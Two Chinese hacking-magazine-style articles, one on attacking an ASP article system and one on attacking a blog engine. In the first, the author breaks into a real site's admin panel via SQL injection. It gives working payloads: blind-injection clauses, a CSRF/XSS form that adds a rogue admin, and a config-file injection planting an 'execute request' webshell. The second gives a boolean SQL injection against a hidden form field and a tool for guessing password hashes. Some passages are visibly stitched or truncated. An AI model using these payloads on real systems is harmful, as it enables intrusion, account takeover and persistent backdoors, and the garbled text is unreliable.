

## 秒杀的乐趣

## ——一分钟搞定流光文章系统

Begin

最近比较闲，想到以前有一篇叫做《我和一个偷尝禁果的MM》的连载小说还没看完，就去网上逛了逛。可不要说我好色啊，这可是正经小说。再说我也没闲着，你看到的这篇文章就是我没闲着的证据。习惯性地在网站后面加了个admin.asp，直接转到了管理系统登录页面，如图1所示。



后台很简洁，只可惜多了几个字“入侵By炎焱灼灼眼”。无语了，喜欢看《灼眼的夏娜》不是错，但是让全世界都知道了就不太好吧？

我考虑了一下，如果有权限修改后台登录页面，为什么不改掉首页或加上木马呢？（当然我只是从技术上来考虑，我一向反对挂马行为。）这说明它没有拿到WebShell！既然有前人没有完成任务，我的努力才有动力。仔细看下去，很容易发现一个注入漏洞，如图2所示。



接下来的事情就交给工具吧，手工猜解比较麻烦，Access版的我都喜欢交给工具或用Union查询，如图3所示：

工具就是方便，拿到后台管理员账号密码后二话不说，直奔后台。首先映入眼帘的是一些服务器信息以及版权信息，如图4所示。看到左边管理菜单有个配置修改，直觉告诉我可以……



```asp
username=trim(replace(request("username"),"'",""))
password=trim(replace(request("password"),"'",""))
sql="select * from `admin` user where username='"&username&"' and password='"&password&"'"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,1
if rs.eof then
  response.write "<script>alert('用户名或密码错误');history.back(-1);</script>"
  response.end()
else
  Session("username")=rs("username")
  Session("userclass")=rs("userclass")
  Session("password")=rs("password")
  response.redirect "admin.asp"
end if
rs.close
set rs=nothing
```

图3



图4

用户名与密码都设置了单引号过滤，字符型参数过滤了单引号我们就可以认为它是安全的。管理员登录成功后赋Session变量值，后台所有页面用 `<!-- #include file="Session.asp" -->` 来判断是否Session为空，若为空则返回登录页面。可恶，如果Session可以伪造就好办了，但实际上这不太可能。

这样也好，省得我们看太多的代码，凡是admin开头的文件我们都不看，有漏洞也拿它没办法。很快，我就发现有几个文件对变量没做任何过滤就放到SQL语句里去查询了，如 `book.asp`、`book_zhang.asp`、`pinglun.asp`、`vote.asp` 的 `id=request("id")` 或 `id=request.QueryString("id")`；还有的文件对ID变量做了过滤，过滤了单引号，如 `bookgood.asp`、`class.asp`、`gonggaodisp.asp` 的 `id=replace(trim(request("id")),"'","")`。当然还是有字符型变量过滤了单引号的，如 `quanben.asp`。

> 数字型变量没过滤或只过滤了单引号都是严重错误的安全思想。过滤了单引号，我们只要在构造SQL语句的时候避开单引号即可。比如可以通过 `and 1=(select id from admin where asc(mid(username,1,1))>120)` 这类语句，绕过对单引号的过滤。



图5

用它来做点事情。先进去看看，如图5所示。原来如此，原来如此！

### 漏洞发现过程

#### 1. SQL注入漏洞

通过百度很快找到这套系统源码并下载回来。至于拿到一套源码后如何快速地找到可能存在的漏洞，这里我就不多说了，不懂的朋友可以参看黑防4期上firstsee的文章。先看登录代码，如下：

针对字符型参数过滤了单引号的情况，最好是把一个单引号替换成两个单引号，因为SQL语句中规定：常量要这样表示；如果常量里要用单引号，可以用两个单引号代替。这样既可以保持用户输入的原貌，又可以保证程序的安全。

这里SQL注入漏洞常规利用，以及 `search.asp` 文件对字符型变量Word未过滤产生的注入漏洞就不说了。我们重点说一下Union查询，因为在这套系统里我用Union查询有一点心得想和大家分享一下。`book.asp` 的相关代码如下：

```asp
<%
b_id=request("id")
set rs1=server.CreateObject("ADODB.Recordset")
sql1="select * from b_class where b_id="&b_id
rs1.open sql1,conn,1,3
%>
<%
dim classid
classid=rs1("classid")
set rs2=server.CreateObject("ADODB.Recordset")
sql2="select * from class where classid="&classid
rs2.open sql2,conn,1,1
%>
<%
set rs3=server.CreateObject("ADODB.Recordset")
sql3="select * from c_class where b_id="&b_id&" order by c_id desc"
rs3.open sql3,conn,1,1
%>
<%
dim c_id
c_id=rs3("c_id")
set rs4=server.CreateObject("ADODB.Recordset")
sql4="select * from article where c_id="&c_id&" order by articleid desc"
rs4.open sql4,conn,1,1
%>
```

可以看到，id是直接request过来的，没经过过滤，直接放到SQL1与SQL3这两个SQL语句中查询去了。而SQL1查询出来的结果 `rs1("classid")` 再赋给classid作为变量放到SQL2中去查询，SQL3查询出来的结果 `rs3("c_id")` 赋给c_id放到SQL4中去查询。漏洞是明显存在的，不过用Union查询就会发现总会出错，因为不同的表字段不同，而Union查询就是要前后查询字段数量一样。



图6

这表明SQL1执行成功了，而执行到SQL3时就不成功了，因为列数不匹配。此问题同样出现在其他页面中，继续构造Union查询可得到更多结果。



图7



图8

请仔细看上面的图，右边的查询结果还是报错说列数不匹配，而左边已经歪打正着爆出了账号密码。对比分析这些文件代码可知，查询不同表的结果放在不同表格显示时，即使同一变量在某处Union出错，也可能不影响另一处输出。

#### 2. 跨站漏洞

当看到 `book.asp` 里没有过滤用户评论相关参数，竟然直接写到数据库里的时候，就能判断此系统可能存在跨站漏洞，代码如下：

```asp
rsp.addnew
rsp("p_name")=trim(request.form("name"))
rsp("p_content")=trim(request.form("content"))
rsp("b_id")=b_id2
rsp("classid")=classid2
rsp.update
rsp.close
set rsp=nothing
```

写到数据库里的是输入的原貌，读到此页面时代码如下：

```asp
<TD width="69%" height="30">&nbsp;…
<%=unhtml(rsp("p_content"))%></TD>
<TD height="30" align="right" valign="top"><%=rsp("p_name")%> &lt;<%=rsp("p_time")%>&gt;</TD>
```

其中 `p_content` 用了一个函数 `unhtml` 转换，而 `p_name` 与 `p_time` 没有转换。`p_time` 一看就是时间，没办法控制，构造跨站语句的关键在 `p_name` 里。作者并没有对评论人姓名限制长度，也就是说我们可以随便跨。如图9所示。


图9

许多朋友可能会问，跨站就这么点用？一提起跨站就会想起 ``，其实跨站不单单只有 Img 可玩。你也可以挂马；当然我不喜欢挂马，所以这里我就教你如何利用跨站漏洞在后台添加管理员，你可以直接修改后台管理员账号密码。

由于访问后台要 Session 验证，所以你要想办法让管理员在后台删除你的评论。当他浏览的时候，跨站漏洞就会将你添加成管理员了。不过这需要我们充分运用社会工程学。研究了一下添加管理员的代码，发现它用 `request.form` 接收数据，也就是说我们的表单要用 Post 提交方式。一般来说，我是把源码的 Post 方式改为 Get 方式，然后提交分析 URL 里的变量，最后构造相应表单。当然你也可以去看程序源代码。经过一段时间的研究，我构造如下表单：

```html
<form action="http://127.0.0.1/admin/user_class.asp?info=useradd" method="post" id="form1">
  <input type="hidden" name="username" value="xysky"/>
  <input type="hidden" name="password" value="123456"/>
  <input type="hidden" name="e-mail" value="lovexysky@hack.com"/>
  <input type="hidden" name="QQ" value="12345678"/>
  <input type="hidden" name="userclass" value="3"/>
  <input type="hidden" name="add" value="yes"/>
</form>
<script language="javascript">
  this.document.forms[0].submit();
  location.href('index.asp');
</script>
```

看看我测试的结果吧，由于多访问了几次我设的表单，所以加了许多 `xysky` 的管理员，如图10所示。

> 跨站漏洞的修补方法：

- 限制用户提交数据的长度。
- 过滤或转换用户提交数据中的 HTML 代码。

#### 3. 后台配置写马

前面的 SQL 注入以及跨站，我想炎焱灼眼肯定知道；不过下面的他可能就不知道了。记得当初惊云下载……


图10

系统爆出漏洞后，许多人都是在后台通过上传抓包，修改提交得到 WebShell 的。后来我发现惊云下载系统有个配置文件 `config.asp`，于是研究了一番，并且有所收获。今天又遇到一个配置文件功能，不妨利用一下。首先我们看修改配置文件的关键代码：

```vb
set fso=Server.CreateObject("Scripting.FileSystemObject")
set rs=fso.CreateTextFile(Server.MapPath("const.asp"),true)
rs.write "<%" & vbcrlf
rs.write "const Webname='" & chr(34) & trim(request("Webname")) & chr(34) & "'"
rs.write "const weburl='" & chr(34) & trim(request("weburl")) & chr(34) & "'"
' ...中间省略类似代码
rs.write "const webadmin='" & chr(34) & trim(request("webadmin")) & chr(34) & "'"
rs.write "const accrediti='" & chr(34) & trim(request("accrediti")) & chr(34) & "'"
rs.write "%>"
rs.close
set rs=nothing
set fso=nothing
```

把一些信息写到 `const.asp` 文件里，格式大约如下：

| 代码 | 说明 |
|---|---|
| `<% const 变量名="变量值" %>` | 相关说明 |

我们可以利用的就是我们人为输入的变量值，那么怎么利用呢？我画了一张图，大家再看看吧，很容易看懂的，如图11所示。


图11

意思是说我们输入的变量值必须用 `%>` 闭合前面的一个 `<%`，然后才是我们自己的代码，最后还要用一个 `<%` 闭合后面一个 `%>`，当然还要注意闭合引号。经典的一句话木马 `execute request("a")` 在这里就不能用了，因为你现在修改的是系统配置文件……如图12所示。


当我们从本地 Post 提交的时候字段才不为空，才会执行 `execute` 后面的语句。照着这样的思路探索下去，我们最终构造的语句为：`... if request("a")<>"" then execute request("a") ...`，通过注释与闭合技巧让配置文件语法保持正确，从而实现一句话木马。


信息就不会有问题。修补漏洞的时候自己选择一种喜欢的便可，如果你有更好的方案，大家不妨一起讨论。

## 4. 跨站直接写 Shell

有了前面两个漏洞做基础，才有了写 Shell 的想法。改为 GET 方式提交，从返回的 URL 里分析，省掉部分参数后可跨站写入。文中给出了一段较长的构造 URL，并说明可结合 `<script>window.open("url")</script>` 或 `<iframe>` 去跨站写 Shell。

### 小结

本文有两个地方值得注意：一是 Union 查询时不同字段引起的列数不匹配问题；二是后台配置写马问题。利用配置写马可得到一个小型 WebShell，过程较快。

WTF：“2s_space Blog”以其独特美观吸引了大量追随者。作者通过阅读源码，提出一种“隐藏式”注入漏洞，并说明适合读者与前置知识。

## 隐藏变量的危害

## —— 2s_Blog 实现注入漏洞

### 惊现漏洞

最近，我在读 WJR's Blog 的源码时，发现了一种隐藏式注入漏洞。考虑到危害较大，这里将漏洞公布，以便于大家修补。

对于隐藏式提交，熟悉表单的朋友应有所接触。在表单中如果其 `type` 为 `hidden`，提交框通常不可见，由此可能被忽略并引发安全问题。


是不甘心默默无闻，一些隐藏的变量就跳到了前台，从而引起了一个又一个的漏洞。OK！下面就来介绍这位由幕后走到台前的 `comm_ID`，它隶属于 `commedit.asp` 文件，其引人注目的原因如下：

```asp
Dim comms_ID
comms_ID=CheckStr(Request.QueryString("commID"))
If Not IsInteger(comms_ID) Then comms_ID=0
...
comm_ID=Request.Form("comm_ID")
comm_Author=Request.Form("comm_Author")
Conn.Execute("UPDATE blog_Comment SET ... WHERE comm_ID='"&comm_ID&"'")
```

有朋友可能会说，在第二步中，已经对 `comms_ID` 进行了验证，如果不是数值就赋予其 `0`，怎么会有漏洞呢？仔细对比第一步和第五步中的两个变量……`Request.QueryString` 接收的是 `commID`，而 `Request.Form` 接收的是 `comm_ID`……漏洞由此产生。

那么 `comm_ID` 是如何提交的呢？其实它用的是隐藏方式，在 `commedit.asp` 中有类似 `<input name="comm_ID" type="hidden" ...>`，在客户端查看源码即可发现。

### 测试漏洞

漏洞产生的原因找到了，下面转入测试阶段。首先在本地搭建平台，进入某个日志发表评论，在发表评论时勾选“同时注册”，如图1所示。


这样我们在发表评论的同时，也会注册一个用户。发布成功后，回到该评论所在的日志页，如图2所示。


其中有一个类似铅笔的图案，这就是进入 `commedit.asp` 的钥匙。为了详细了解提交数据，启动 WinSock Expert 进行监听，如图3所示。


因为要抓取评论的提交数据，所以提交内容尽量简单（如 `123`），提交后可在 WinSock Expert 中抓到请求数据，内容如下：

```http
POST /blog/commedit.asp?action=postedit HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://127.0.0.1/blog/commedit.asp?commID=520
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; ...)
Host: 127.0.0.1
Content-Length: 70
Connection: Keep-Alive
...
```

```
C3A8C8BE217DBCF62384A17DD37A...&memName=ccc

ID=50&comm_Author=ccc&comm_AutoURL=1&message=123&comm_ID=520&log_ID=50
```

将这些数据分别复制到“POST 注入工具”中，然后修改“提交信息”中 `comm_ID` 的值，将其改为 `520+and+1=1`，再将 `message` 的值由 `123` 改为 `jmdcw`。如果条件成立（1=1），则 update 语句会执行，评论内容会更新。


图4

提交后刷新当前日志页，评论内容变成了“jmdcw”，1=1 测试成功。


图5

如果将 `comm_ID` 改为 `520+and+1=2`，则不会修改评论内容，因为（1=2）条件不成立，Update 语句不会执行。

### 实际应用

根据这一特性，作者编写了一个小程序用于自动猜解管理员或某个用户的 MD5 值。使用方法是先抓取评论提交数据，再将 POST、Referer、Host、Cookie 内容填入对应栏目。

> 在填写 Cookie 时，先将 Cookie 内容复制到文本文件，去掉“自动换行”前的对勾，使其在一行显示，再复制到程序的 Cookie 项中。


图6

接着设置“评论页所在 URL”（去掉 `#` 后附加数据），再设置“管理员 ID”。在用户列表页面将鼠标移到用户名上，可在状态栏看到该用户 ID（如图7）。


图7

再向下的“用户名称”是 Cookie 中 `memName` 的值（如 `memName=ccc`，则用户名为 `ccc`）。

> 设置“MD5 长度”和“开始位数”的作用：若中断后可从指定开始位继续猜解，例如已到第16位则从17继续。

一切设置完成后点击“开始”即可等待结果。文中测试表明 BLOG 采取了 Session 验证，Cookie 欺骗不可直接使用，但仍可结合 MD5 暴破尝试弱口令。


图8

变量漏洞还不止这一处，比如 `colledit.asp` 中的 `col_ID` 和 `downledit.asp` 中的 `downl_ID`，也是这样的漏洞，当然利用的方法也是一样。不过这两处需要一些权限才可以，这里就不再测试了，有兴趣的朋友可以自己研究一下。

